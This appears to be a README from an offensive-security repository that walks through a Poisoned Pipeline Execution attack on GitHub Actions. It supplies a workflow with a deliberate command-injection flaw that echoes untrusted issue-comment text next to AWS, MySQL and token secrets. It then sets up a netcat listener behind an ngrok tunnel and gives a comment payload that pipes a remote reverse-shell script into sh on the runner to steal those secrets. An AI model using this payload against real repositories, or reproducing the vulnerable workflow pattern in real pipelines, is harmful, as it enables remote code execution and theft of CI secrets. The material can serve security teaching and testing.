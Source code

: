 # Github Actions: Poisoned Pipeline Execution


This folder showcases an attack against a GitHub Action Pipeline vulnerable to [*PPE*](https://github.com/R3DRUN3/sploitcraft/tree/main/ci-cd/ppe). 

### Demo Objective 

The objective of this demo is to illustrate how an attacker can exploit a vulnerable GitHub Action setup to:

- Execute remote code.

- Exfiltrate sensitive secrets from the GitHub runner environment.

## Prerequisites 

To run this demo, ensure you have:

- Access to a GitHub repository with GitHub Actions enabled.


## Instructions 
 
1. **Repo Creation** : Create a new Github repository.
 
2. **Configuration** : Inside the new repo, create the `.github/workflows` repo.
 
3. **Action Manifest** : Inside the workflow repo create a yaml file called `vulnerable.yaml` and copy the following inside:  
```yaml
name: command-injection-demo
on:
  issue_comment:
    types: [created]
jobs:
  auto-manage-new-issue:
    runs-on: ubuntu-latest
    steps:
      - name: Retrieve Issue Information
        run: |
          echo ${{ github.event.comment.body }}
        env:
          AWS_API_KEY: ${{ secrets.AWS_API_KEY }}
          MYSQL_CONNECTION_STRING: ${{ secrets.MYSQL_CONNECTION_STRING }}
          GENERIC_TOKEN: ${{ secrets.GENERIC_TOKEN }}
```  

This GitHub Action workflow (`command-injection-demo`) triggers on the creation of new comments inside an issue.  
Upon activation, it retrieves the body of the comment (`${{ github.event.comment.body }}`) and echoes it directly within the workflow execution environment.  
The vulnerability lies in the lack of input sanitization for `${{ github.event.comment.body }}`.  
Since the workflow echoes this variable without any validation or sanitization, an attacker can potentially pipe and inject arbitrary operating system commands into the workflow.  
By crafting a malicious comment, an attacker could exploit this vulnerability to execute unauthorized commands within the GitHub Actions environment and exfiltrate the secrets (`AWS_API_KEY`, `MYSQL_CONNECTION_STRING` and `GENERIC_TOKEN`).  


 
4. **Exploit** : Create a new issue and add a new comment to it, see what happens:  

![legit-comment](./images/legit_issue_comment.png)  
![legit-action-run](./images/legit_action_run.png)   
 
As you can see the action was triggered by our comment and printed out the body of the comment.  

At this point we can proceed to poison the execution 😈

In order to do that we will use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).  


Open a new nectcat listener on your local machine:  
```sh
nc -lnvp 1337
```  

Forward an ngrok tcp tunnel on the same port: 

```sh
ngrok tcp 1337
```  

Now, retrieve the `Forwarding` address (DNS name) from ngrok output and with that we can construct our malicious payload (you can also use ngrok public IP instead of the dns name).  

Our payload will be:  
```console
"" && sh -c 'curl https://reverse-shell.sh/<NGROK-IP-OR-DNS-NAME>:<NGROK-PUBLIC-PORT> | sh'
```  


This payload will be the body of our new malicious comment on the GitHub issue:  
![payload](./images/ppe_payload.png)  

When we leave this comment, it will trigger the GitHub Action, and that payload will be injected directly into the runner (agent) of the action and executed, thereby opening a reverse shell within the remote environment of the pipeline.    
From there, we will have the ability to exfiltrate secrets.    
Watch a demonstration of the entire workflow in the following video:  


https://github.com/R3DRUN3/sploitcraft/assets/102741679/ffd8696e-1271-469e-9629-38c3b087f28c








